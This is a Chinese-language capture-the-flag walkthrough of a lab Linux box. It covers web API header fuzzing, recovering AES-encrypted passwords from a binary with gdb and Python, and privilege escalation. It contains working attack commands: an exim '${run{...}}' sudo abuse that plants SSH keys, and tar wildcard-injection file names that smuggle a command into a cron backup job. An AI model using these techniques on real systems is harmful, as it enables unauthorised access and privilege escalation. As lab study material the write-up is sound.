## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

提权部分为非预期

## Nmap

```
[root@kali] /home/kali/stackinferno  
❯ nmap 172.17.0.2 -sV -A -p-

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 88:00:5f:26:eb:50:e4:55:6d:0a:0c:73:58:99:cd:2d (ECDSA)
|_  256 6b:36:5c:a3:c0:8b:22:b7:35:11:86:f1:7e:7f:77:5b (ED25519)
80/tcp open  http    Werkzeug/2.2.2 Python/3.11.2
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 302 FOUND
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Wed, 16 Apr 2025 03:01:23 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 223
|     Location: http://cybersec.dl
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to the target URL: <a href="http://cybersec.dl">http://cybersec.dl</a>. If not, click the link.
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 302 FOUND
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Wed, 16 Apr 2025 03:01:18 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 223
|     Location: http://cybersec.dl
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to the target URL: <a href="http://cybersec.dl">http://cybersec.dl</a>. If not, click the link.
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
|_http-title: CyberSec Corp - Expertos en Ciberseguridad
```

添加域名：**cybersec.dl**

## API Fuzz

查看源码，发现有**js**拦截，可以另外提前开一个**F12**，然后手动输入**url**跳转



可以看到存在一个**/api**路径，里面给出的密码都是没用的

扫描一下其他的接口

```
[root@kali] /home/kali/stackinferno  
❯ gobuster dir -u http://cybersec.dl/api -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cybersec.dl/api
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/interest             (Status: 405) [Size: 153]
```

注意必须使用POST发包，发现到需要设置一个请求头

```
[root@kali] /home/kali/stackinferno  
❯ curl http://cybersec.dl/api/interest                                                            
<!doctype html>
<html lang=en>
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>

[root@kali] /home/kali/stackinferno  
❯ curl -X POST http://cybersec.dl/api/interest                          
{
  "message": "Error: 'Role' header not provided"
}
```

对这个**Role**进行用户枚举

```
[root@kali] /home/kali/stackinferno  
❯ ffuf -X POST -u 'http://cybersec.dl/api/interest' -H 'Role: FUZZ' -w ../Desktop/fuzzDicts/userNameDict/user.txt -fc 403                                                                                     ⏎

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://cybersec.dl/api/interest
 :: Wordlist         : FUZZ: /home/kali/Desktop/fuzzDicts/userNameDict/user.txt
 :: Header           : Role: FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

user                    [Status: 200, Size: 237, Words: 39, Lines: 10, Duration: 38ms]
Administrator           [Status: 200, Size: 781, Words: 83, Lines: 14, Duration: 39ms]
:: Progress: [8886/8886] :: Job [1/1] :: 1169 req/sec :: Duration: [0:00:08] :: Errors: 0 ::
```

设置为管理员查看回显，所有域名中，有用的就只有：**0internal\_down.cybersec.dl**

```
[root@kali] /home/kali/stackinferno  
❯ curl -X POST http://cybersec.dl/api/interest -H "Role: Administrator" 
{
  "company": {
    "URLs_web": "cybersec.dl, soc_internal_operations.cybersec.dl, bin.cybersec.dl, mail.cybersec.dl, dev.cybersec.dl, cybersec.htb/downloads, internal-api.cybersec.dl, 0internal_down.cybersec.dl, internal.cybersec.dl, cybersec.htb/documents, cybersec.htb/api/cpu, cybersec.htb/api/login",
    "UUID": "f47ac10b-58cc-4372-a567-0e02b2c3d479, df7ac10b-58mc-43fx-a567-0e02b2r3d479",
    "address": "New York, EEUU",
    "branches": "Brazil, Curacao, Lithuania, Luxembourg, Japan, Finland",
    "customers": "ADIDAS, COCACOLA, PEPSICO, Teltonika, Toray Industries, Weg, CURALINk",
    "name": "CyberSec Corp",
    "phone": "+1322302450134200",
    "services": "Auditorias de seguridad, Pentesting, Consultoria en ciberseguridad"
  },
  "message": "Acceso permitido"
}
```

访问需要设置**UUID**头，这里可以直接使用上获取到的

```
[root@kali] /home/kali/stackinferno  
❯ curl http://0internal_down.cybersec.dl                        
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>403 - Acceso denegado</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            background-color: #f4f4f4;
            color: #333;
            text-align: center;
            padding: 50px;
        }
        h1 {
            color: #d9534f;
        }
        p {
            font-size: 1.2em;
        }
    </style>
</head>
<body>
    <h1>403 - Acceso denegado</h1>
    <p>El encabezado <code>X-UUID-Access</code> no está presente.</p>
    
</body>
</html>#                         
```

设置好后可以进入到页面，是一个下载页面

```
[root@kali] /home/kali/stackinferno  
❯ curl http://0internal_down.cybersec.dl -H 'X-UUID-Access: f47ac10b-58cc-4372-a567-0e02b2c3d479'

....
....
    <div class="container">
        <h1>Sec2Pass</h1>
        <div class="file-list">
            <div class="file-item">
                <span class="file-name">sec2pass</span>
                <button class="download-btn" onclick="downloadFile('sec2pass')">Descargar</button>
            </div>

            <div class="file-item">
                <span class="file-name">sec2pass_note.txt</span>
                <button class="download-btn" onclick="downloadFile('sec2pass_note.txt')">Descargar</button>
            </div>
        </div>
    </div>

    <script>
        function downloadFile(fileName) {
                 const link = document.createElement('a');
                 link.href = `http://0internal_down.cybersec.dl/download/${fileName}`;
                 link.download = fileName; 
                 document.body.appendChild(link);
                 link.click();
                 document.body.removeChild(link);
        }
    </script>
    </script>
</body>
</html>#                       
```



## Decompile

由于全局没有可以利用的静态字符串，因此还得从代码逻辑入手

先来看看**main**函数代码

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[112]; // [rsp+0h] [rbp-10F0h] BYREF
  char v5[112]; // [rsp+70h] [rbp-1080h] BYREF
  char dest[1024]; // [rsp+E0h] [rbp-1010h] BYREF
  char s[1024]; // [rsp+4E0h] [rbp-C10h] BYREF
  char format[1024]; // [rsp+8E0h] [rbp-810h] BYREF
  char v9[1032]; // [rsp+CE0h] [rbp-410h] BYREF
  unsigned __int64 v10; // [rsp+10E8h] [rbp-8h]

  v10 = __readfsqword(0x28u);
  memset(dest, 0, sizeof(dest));
  strcat(dest, AMLP);
  strcat(dest, PRZS);
  strcat(dest, ING);
  *(_WORD *)&dest[strlen(dest)] = 32;
  strcat(dest, PROS);
  *(_WORD *)&dest[strlen(dest)] = 32;
  strcat(dest, TANO);
  strcat(dest, CHZ);
  strcat(dest, PWD);
  strcat(dest, CLIK);
  strcat(dest, PARR);
  memset(s, 0, sizeof(s));
  strcat(s, TANO);
  strcat(s, CHZ);
  strcat(s, PWD);
  strcat(s, CLIK);
  strcat(s, ASMLF);
  *(_WORD *)&s[strlen(s)] = 32;
  strcat(s, VNZ);
  strcat(s, HK);
  strcat(s, EEUU);
  strcat(s, DNMC);
  strcat(s, ERTG);
  memset(format, 0, sizeof(format));
  strcat(format, AMLP);
  strcat(format, PRZS);
  strcat(format, ING);
  *(_WORD *)&format[strlen(format)] = 32;
  strcat(format, ASMQ);
  *(_WORD *)&format[strlen(format)] = 32;
  strcat(format, NRG);
  strcat(format, BRZL);
  *(_WORD *)&format[strlen(format)] = 32;
  strcat(format, LAKDF);
  *(_WORD *)&format[strlen(format)] = 32;
  strcat(format, WVWVEB);
  strcat(format, RBWRTB);
  strcat(format, AEBDV);
  strcat(format, QQQQ);
  memset(v9, 0, 0x400uLL);
  strcat(v9, NRG);
  strcat(v9, BRZL);
  *(_WORD *)&v9[strlen(v9)] = 32;
  strcat(v9, LAKDF);
  *(_WORD *)&v9[strlen(v9)] = 32;
  strcat(v9, WVWVEB);
  strcat(v9, RBWRTB);
  strcat(v9, AEBDV);
  *(_WORD *)&v9[strlen(v9)] = 32;
  strcat(v9, VNZ);
  strcat(v9, HK);
  strcat(v9, EEUU);
  strcat(v9, ASMQXZ);
  strcat(v9, POIKJ);
  strcat(v9, ERTG);
  fn2();
  printf(dest);
  __isoc99_scanf("%s", v4);
  if ( b6v4c8(v4) )
  {
    printf(format);
    __isoc99_scanf("%s", v5);
    if ( (unsigned int)x1w5z9(v5) )
    {
      k8j4h3();
      return 0;
    }
    else
    {
      printf(v9);
      return 1;
    }
  }
  else
  {
    printf(s);
    return 1;
  }
}
```

关注一下**b6v4c8**函数里的逻辑👇

```
_BOOL8 __fastcall b6v4c8(const char *a1)
{
  __int64 v2; // [rsp+18h] [rbp-78h] BYREF
  char s2[104]; // [rsp+20h] [rbp-70h] BYREF
  unsigned __int64 v4; // [rsp+88h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  if ( !(unsigned int)qw3e7t((__int64)&p0o9i8, 0x30u, (__int64)s2, &v2) )
    return 0LL;
  s2[v2] = 0;
  return strcmp(a1, s2) == 0;
}
```

**qw3e7t**函数逻辑👇，可以看到是一个**AES\_ECB**的密码类型

```
__int64 __fastcall qw3e7t(__int64 a1, unsigned int a2, __int64 a3, _QWORD *a4)
{
  __int64 v5; // rax
  int v8; // [rsp+2Ch] [rbp-14h] BYREF
  __int64 v9; // [rsp+30h] [rbp-10h]
  unsigned __int64 v10; // [rsp+38h] [rbp-8h]

  v10 = __readfsqword(0x28u);
  v9 = EVP_CIPHER_CTX_new();
  if ( v9 )
  {
    v5 = EVP_aes_256_ecb();
    if ( (unsigned int)EVP_DecryptInit_ex(v9, v5, 0LL, &zxq9v8, 0LL) == 1 )
    {
      if ( (unsigned int)EVP_DecryptUpdate(v9, a3, &v8, a1, a2) == 1 )
      {
        *a4 = v8;
        if ( (unsigned int)EVP_DecryptFinal_ex(v9, v8 + a3, &v8) == 1 )
        {
          *a4 += v8;
          EVP_CIPHER_CTX_free(v9);
          return 1LL;
        }
        else
        {
          fwrite("Error al finalizar el descifrado.\n", 1uLL, 0x22uLL, _bss_start);
          EVP_CIPHER_CTX_free(v9);
          return 0LL;
        }
      }
      else
      {
        fwrite("Error al descifrar los datos.\n", 1uLL, 0x1EuLL, _bss_start);
        EVP_CIPHER_CTX_free(v9);
        return 0LL;
      }
    }
    else
    {
      fwrite("Error al inicializar el descifrado.\n", 1uLL, 0x24uLL, _bss_start);
      EVP_CIPHER_CTX_free(v9);
      return 0LL;
    }
  }
  else
  {
    fwrite("Error al crear el contexto de cifrado.\n", 1uLL, 0x27uLL, _bss_start);
    return 0LL;
  }
}
```

那么要绕过第一层的话，首先我们输入的明文要与密文解密一致

获取一下密钥**zxq9v8**的内容，这里我使用的是**gdb**下断点然后找变量

```
[root@kali] /home/kali/Downloads  
❯ gdb sec2pass                                                                                                                                ⏎
GNU gdb (Debian 15.2-1) 15.2
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from sec2pass...
(No debugging symbols found in sec2pass)
(gdb) break qw3e7t
Breakpoint 1 at 0x2687
(gdb) run
Starting program: /home/kali/Downloads/sec2pass 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
ingrese la contraseña: 123

Breakpoint 1, 0x0000555555556687 in qw3e7t ()
(gdb) x/s &zxq9v8
0x55555555a300 <zxq9v8>:        "w8fcencwcbuw9ef849f89999920484hf"
(gdb) 
```

得到密钥的内容是：**w8fcencwcbuw9ef849f89999920484hf**

再来查看一下密文的内容，需要转成十六进制，传参中指定的是**0x30u**，因此是48位的

```
(gdb) x/48xb &p0o9i8
0x5555555580a0 <p0o9i8>:        0x30    0xbc    0x92    0x70    0xb1    0x5a    0xbe    0xb1
0x5555555580a8 <p0o9i8+8>:      0x0f    0x8b    0x11    0xae    0x07    0x68    0x3d    0x11
0x5555555580b0 <p0o9i8+16>:     0x47    0x06    0x6a    0x52    0x8f    0xfc    0x84    0x1c
0x5555555580b8 <p0o9i8+24>:     0x82    0x78    0x26    0xc9    0x9f    0x26    0x4e    0x97
0x5555555580c0 <p0o9i8+32>:     0xac    0xeb    0xef    0xe3    0x96    0x0d    0x23    0x31
0x5555555580c8 <p0o9i8+40>:     0xbf    0xe0    0x45    0x70    0x44    0xda    0xcf    0xcd
(gdb) 
```

由于加密算法使用的是**AES\_ECB**，因此有密文和密钥就够了（详细内容请自行搜索了解）

解密代码👇

```

key = b"w8fcencwcbuw9ef849f89999920484hf"  # 来自 &zxq9v8

ciphertext = bytes.fromhex(
    "30bc9270b15abeb10f8b11ae07683d1147066a528ffc841c827826c99f264e97"
    "acebefe3960d2331bfe0457044dacfcd"
)

from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

cipher = AES.new(key, AES.MODE_ECB)
plaintext = cipher.decrypt(ciphertext)

# 尝试去除 PKCS#7 填充
try:
    plaintext = unpad(plaintext, AES.block_size)
except ValueError:
    pass

print("解密后的密码:", plaintext.decode("utf-8", errors="ignore"))

#解密后的密码: 789dciubdicv478v7hs8478w72gbfv09893475
```

可以看到成功进入了第二层



第二层的代码👇，还是一样的加密逻辑，只不过这里的密文长度只有**0x10u**，也就是16个字节

```
_BOOL8 __fastcall x1w5z9(const char *a1)
{
  __int64 v2; // [rsp+18h] [rbp-78h] BYREF
  char s2[104]; // [rsp+20h] [rbp-70h] BYREF
  unsigned __int64 v4; // [rsp+88h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  if ( !(unsigned int)qw3e7t((__int64)&l3k7j5, 0x10u, (__int64)s2, &v2) )
    return 0LL;
  s2[v2] = 0;
  return strcmp(a1, s2) == 0;
}
```

由于使用的都是**qw3e7t**同一个函数，因此密钥也是一样的

这里获取密文**l3k7j5**

```
(gdb) break qw3e7t 
Breakpoint 1 at 0x2687
(gdb) run
Starting program: /home/kali/Downloads/sec2pass 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
ingrese la contraseña: 789dciubdicv478v7hs8478w72gbfv09893475

Breakpoint 1, 0x0000555555556687 in qw3e7t ()
(gdb) x/16xb &l3k7j5
0x5555555580d0 <l3k7j5>:        0x3a    0x37    0x1c    0x25    0x3d    0x6b    0x79    0xaf
0x5555555580d8 <l3k7j5+8>:      0xf2    0x95    0x46    0xd8    0xab    0x48    0x70    0x37
```

再次解密一下👇

```
# 从 gdb 输出的十六进制数据转换为字节（直接按顺序拼接）
ciphertext = bytes.fromhex("3a371c253d6b79aff29546d8ab487037")

from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

# 密钥（与之前相同）
key = b"w8fcencwcbuw9ef849f89999920484hf"  # 32字节 AES-256 密钥

# 解密
cipher = AES.new(key, AES.MODE_ECB)
plaintext = cipher.decrypt(ciphertext)

# 尝试去除 PKCS#7 填充（如果存在）
try:
    plaintext = unpad(plaintext, AES.block_size)
except ValueError:
    pass  # 无填充或长度正确

# 输出结果
print("解密后的密码（原始字节）:", plaintext)
print("尝试解码:", plaintext.decode("utf-8", errors="replace"))

#解密后的密码（原始字节）: b'00485825'
#尝试解码: 00485825
```

得到明文：**00485825**

两个明文都有了，执行文件，得到凭证





在**carlos**的目录下拿到**user.txt**

## Own robert

查看目录下有一个**mbox**的邮件信息

这里我简略翻译一下

```
# robert to carlos

你好，卡洛斯，希望你一切都好。我跟你说一下，我得和协调员一起去另一个城市参加一个活动。问题是我没时间等你关于最近那次事件的报告，然后再把所有报告发送给德拉科尔有限公司（Dracor S.A.）的部门了。鉴于我不在，我会和管理员说，让他给你分配权限，这样你就可以用我的邮箱把报告发送给德拉科尔有限公司，因为他们正等着我就这个事情给回复呢。所以等你把报告准备好后，请发送一下。

# carlos to robert

你好，罗伯特，太好了，报告明天就会准备好。你和管理员说一下，有任何新情况都通知我。祝好。

# robert to carlos

你好，卡洛斯，我已经通知管理员（root）了，他在等你把申请发送到 root@cybersec 这个邮箱。记住申请的格式：
申请人姓名：
日期：
信息：
简要描述：
在描述中，你务必写上以下案件编号，以便和我的申请保持连贯性，案件编号：000-01458。
另外，留意你的邮箱，因为一旦他们给你开通权限，你就会收到通知。祝好。
```

使用下面的命令进行申请权限

```
echo -e "Nombre del solicitante: Carlos\nFecha: $(date '+%Y-%m-%d')\nMensaje: Solicito permisos para enviar reporte a Dracor S.A.\nBreve descripcion: Caso nro: 000-01458" | mail -s "Solicitud de permisos" root@cybersec
```

查看**/var/mail/carlos**

```
From root@cybersec Wed Apr 16 12:43:10 2025
Return-path: <root@cybersec>
Envelope-to: carlos@cybersec
Delivery-date: Wed, 16 Apr 2025 12:43:10 +0000
Received: from root by cybersec with local (Exim 4.96)
        (envelope-from <root@cybersec>)
        id 1u526c-00038R-2F
        for carlos@cybersec;
        Wed, 16 Apr 2025 12:43:06 +0000
To: carlos@cybersec
Subject: exim
MIME-Version: 1.0
Content-Type: text/plain; charset="ANSI_X3.4-1968"
Content-Transfer-Encoding: 8bit
Message-Id: <E1u526c-00038R-2F@cybersec>
From: root <root@cybersec>
Date: Wed, 16 Apr 2025 12:43:06 +0000

Hola Carlos, ya puedes enviar correos como Robert. Estos permisos se revocarán periódicamente y tendrás que volver a solicitarlos.
#你好，卡洛斯，你现在可以以罗伯特的身份发送邮件了。这些权限会定期被撤销，届时你将不得不再次申请它们。
```

这个时候检查sudo -l，会发现多了一个命令



```
 sudo -u robert /usr/sbin/exim -be '${run{/usr/bin/cp /tmp/authorized_keys /home/robert/.ssh/authorized_keys}}'
```

好像是必须通过绝对路径来执行



## Own pedro

查看定时任务

```
robert@cybersec:/tmp$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
#
*/2 * * * * pedro /bin/bash /usr/local/bin/back.sh
```

两分钟会执行一次这个脚本，**robert**没有写入权限

```
robert@cybersec:/tmp$ cat /usr/local/bin/back.sh
#!/bin/bash

cd /home/share && tar -czf /home/pedro/back.tar *
robert@cybersec:/tmp$ ls -al /usr/local/bin/back.sh
-rwxr-x--- 1 pedro bk 63 Mar 27 14:11 /usr/local/bin/back.sh
robert@cybersec:/tmp$ groups 
robert users back bk
```

注意到这个**tar**命令最后面跟上了一个星号通配符，所有文件都会被拼接上去

- [tar | GTFOBins](https://gtfobins.github.io/gtfobins/tar/)

因此如果是将参数名作为文件名拼上去的话，会被识别为参数



```
#在/home/share目录下
echo "mkdir /home/pedro/.ssh/;cp /tmp/authorized_keys /home/pedro/.ssh/authorized_keys" >shell.sh
touch -- "--checkpoint-action=exec=sh shell.sh"
touch -- "--checkpoint=1"
```

等一会就能登录了



## Root

查看**mbox**消息

```
# admin to pedro

佩德罗，我们在我留在你目录里的二进制文件中检测到了一个可能存在的后门。（这个二进制文件是德拉科尔有限公司之前的开发团队开发的，用于记录员工的出入情况），我们需要你对其进行分析，并尽快提交一份报告。期待你的反馈，祝好。

# pedro to amin

下午好，我先向您汇报截至目前分析得出的最相关数据。
实际上，该二进制文件确实存在一个后门，这个后门是通过一个在程序正常执行过程中从未被调用过的函数来激活的。同时还检测到了一个缓冲区溢出情况，这很可能是进入该后门的触发因素。然而，到目前为止，我在进一步深入分析方面受到了一些限制，因为无法调试该二进制文件（没有权限），并且也无法在虚拟机中运行它。这个二进制文件会对其执行环境进行检查，如果检测到是在虚拟机中，它就不会运行；当我尝试调试它时也是一样，它检测到正在尝试调试，就不会运行。
如果有可能的话，我需要能够以管理员权限运行调试器来调试这个二进制文件，并强制进行调试操作。期待您的回复，祝好。

# admin to pedro

你好，佩德罗，我读了你的邮件，还有另一个问题想问你。你觉得有没有可能为这个二进制文件开发一个概念验证（POC）呢？因为这将是对德拉科尔有限公司之前开发团队有力的一次检验。
至于给你权限以便你能够调试这个二进制文件（毕竟无法在虚拟机中运行它，也不能在没有权限的情况下调试它），我会通知管理员（超级用户）来配置环境，这样我们就能尽可能安全地处理这件事。请等待我的新消息，我很快会再给你写信……

